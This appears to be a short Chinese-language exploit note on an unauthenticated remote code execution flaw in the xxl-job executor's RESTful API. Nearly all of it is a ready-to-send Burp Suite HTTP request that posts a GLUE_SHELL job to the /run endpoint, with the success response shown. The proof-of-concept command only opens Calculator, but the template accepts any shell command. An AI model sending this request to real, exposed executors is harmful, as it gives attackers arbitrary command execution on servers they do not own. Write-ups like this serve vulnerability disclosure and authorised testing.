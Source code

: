 # xxl-job RESTful API 未授权 RCE

![](04.png)

![](01.png)
![](02.png)
![](03.png)
![](05.png)

## Burpsuite

```
POST /run HTTP/1.1
Host: 127.0.0.1:9999
Content-Length: 365
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "open -a Calculator",
  "glueUpdatetime": 1586629003727,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

```
HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 12

{"code":200}
```


## 参考链接

https://landgrey.me/blog/18/
https://www.xuxueli.com/xxl-job/
